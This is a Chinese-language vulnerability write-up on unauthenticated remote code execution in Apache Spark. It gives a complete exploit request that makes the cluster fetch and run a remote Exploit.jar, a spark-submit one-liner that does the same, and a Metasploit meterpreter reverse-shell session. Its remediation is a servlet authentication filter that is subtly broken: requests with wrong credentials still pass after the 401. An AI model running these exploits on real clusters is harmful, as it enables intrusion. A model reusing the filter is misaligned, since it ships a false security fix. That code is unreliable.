


# Spark 未授权访问漏洞

## 漏洞描述

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动访问控制，攻击者可以在集群中执行任意代码。该漏洞的本质是未授权用户可以向Master节点提交一个应用，Master节点会分发给Slave节点执行应用。如果应用中包含恶意代码，会导致任意代码执行，威胁Spark集群整体的安全性。

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd /opt/vulhub-master/spark/unacc/
docker-compose up 
```

## 漏洞检测

环境启动后，访问`http://your-ip:8080`即可看到master的管理页面，访问`http://your-ip:8081`即可看到slave的管理页面。


该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

### **利用REST API**

构造payload

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```


其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

此时访问`http://your-ip:8081` 已经加载了exploit.jar


返回的包中有submissionId(`driver-20220516074753-0000`)，然后访问`http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：


### **利用submissions网关（集成在7077端口中）**

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest api来提交应用；如果发现不是rest服务器，则会降级到使用submission gateway来提交应用。

查看结果的方式与前面一致。

### **MSF**

```
msf5>use exploit/linux/http/spark_unauth_rce 
msf5>set payload java/meterpreter/reverse_tcp 
msf5>set rhost 192.168.100.2 
msf5>set rport 6066 
msf5>set lhost 192.168.100.1 
msf5>set lport 4444 
msf5>set srvhost 192.168.100.1 
msf5>set srvport 8080 
msf5>exploit
```

## 修复方案

### 创建认证filter对应的jar包

在idea中通过maven编译源码方式。

#### 添加maven依赖

创建maven项目后，pom.xml添加如下依赖：

```
 <dependencies>

        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.10</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.35</version>
        </dependency>

        <!-- logback 依赖 -->
        <dependency>
            <groupId>ch.qos.logback</groupId>
            <artifactId>logback-classic</artifactId>
            <version>1.2.3</version>
        </dependency>

        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.11</version>
        </dependency>

    </dependencies>
```

创建com.demo包



```
package com.demo;

import org.apache.commons.codec.binary.Base64;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.UnsupportedEncodingException;
import java.util.StringTokenizer;

public class SparkAuthFilter implements Filter {

    /**
     * Logger
     */
    private static final Logger LOG = LoggerFactory.getLogger(SparkAuthFilter.class);

    private String username = "";

    private String password = "";

    private String realm = "Protected";

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        username = filterConfig.getInitParameter("username");
        password = filterConfig.getInitParameter("password");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain)
            throws IOException, ServletException {

        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse) servletResponse;

        String authHeader = request.getHeader("Authorization");
        if (authHeader != null) {

            StringTokenizer st = new StringTokenizer(authHeader);
            if (st.hasMoreTokens()) {

                String basic = st.nextToken();

                if (basic.equalsIgnoreCase("Basic")) {

                    try {
                        String credentials = new String(Base64.decodeBase64(st.nextToken()), "UTF-8");
                        LOG.debug("Credentials: " + credentials);

                        int p = credentials.indexOf(":");
                        if (p != -1) {
                            String _username = credentials.substring(0, p).trim();
                            String _password = credentials.substring(p + 1).trim();


                            if (!username.equals(_username) || !password.equals(_password)) {
                                unauthorized(response, "Bad credentials");
                            }

                            filterChain.doFilter(servletRequest, servletResponse);
                        } else {
                            unauthorized(response, "Invalid authentication token");
                        }
                    } catch (UnsupportedEncodingException e) {
                        throw new Error("Couldn't retrieve authentication", e);
                    }
                }
            }
        } else {
            unauthorized(response);
        }
    }

    @Override
    public void destroy() {
    }

    private void unauthorized(HttpServletResponse response, String message) throws IOException {
        response.setHeader("WWW-Authenticate", "Basic realm=\"" + realm + "\"");
        response.sendError(401, message);
    }

    private void unauthorized(HttpServletResponse response) throws IOException {
        unauthorized(response, "Unauthorized");
    }

    public static void main(String[] args) {

    }

}
```

使用maven进行编译，编译的jar包在target目录下面。



#### 执行配置

1. 将jar包上传到spark的`jars`目录。
2. `spark-defaults.conf`配置文件中，增加如下配置：

```
spark.ui.filters=com.demo.SparkAuthFilter
spark.com.demo.SparkAuthFilter.param.username=test
spark.com.demo.SparkAuthFilter.param.password=password
spark.acls.enable=true
```

重启spark集群

```
[root@localhost ~]# /opt/spark-2.3.2-bin-hadoop2.6/sbin/stop-all.sh
[root@localhost ~]# /opt/spark-2.3.2-bin-hadoop2.6/sbin/start-all.sh
```


